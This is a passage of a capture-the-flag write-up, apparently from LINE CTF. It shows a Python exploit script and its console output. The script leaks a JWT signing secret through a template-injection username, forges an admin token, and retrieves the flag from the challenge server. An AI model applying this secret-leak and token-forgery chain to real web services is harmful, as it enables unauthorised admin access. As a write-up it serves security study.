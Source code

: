 ```python
            print('[+] 500 Inter Server Error')
    except:
         print('[+] 500 Inter Server Error')

def FLAG(ADMIN_TOKEN):
    header = {'X-Token':ADMIN_TOKEN}
    RESULT = SESSION.get('http://34.146.226.125/flag', headers=header).json()
    FLAG = RESULT['msg'].split('flag is ')[1]
    print(f'[-] FLAG : {FLAG}')

def JWT_ENCODE(ID, SECRET_KEY):
    AccountClaims = {
        "id": ID,
        "is_admin": True
    }
    jwt_token = jwt.encode(key=SECRET_KEY, algorithm='HS256', payload=AccountClaims)
    return jwt_token

if __name__ == '__main__':
    print('[+] Exploit')
    REGIST(USERNAME, PASSWORD)
    print('[+] Leak the SECRET_KEY')
    SECRET_KEY = LOGIN(USERNAME, PASSWORD)
    print(f'[-] SECRET_KEY : {SECRET_KEY}')
    print('[+] Generate the JWT of ADMIN')
    ADMIN_JWT = JWT_ENCODE(USERNAME, SECRET_KEY).decode('utf-8')
    print(f'[-] ADMIN_JWT : {ADMIN_JWT}')
    print('[+] Leak the FLAG')
    FLAG(ADMIN_JWT)
```
I wrote the exploit code as above.

```sh
❯ python3 exploit.py
[+] Exploit
[+] Register Success : {{  .      }}
[+] Leak the SECRET_KEY
[+] TOKEN : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7ICAuICAgICAgfX0iLCJpc19hZG1pbiI6ZmFsc2V9.thRcBQoJEZUgNF04UMNBYjzww7307fKjCF514rJ0k-0
[-] SECRET_KEY : fasdf972u1031xu90zm10Av
[+] Generate the JWT of ADMIN
[-] ADMIN_JWT : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6Int7ICAuICAgICAgfX0iLCJpc19hZG1pbiI6dHJ1ZX0.ORLfPXc2HWIjMsORBcoRCRVbsiDJCWC_kntbOAOWXhw
[+] Leak the FLAG
[-] FLAG : LINECTF{country_roads_takes_me_home}
```

---
# (Web) online-library
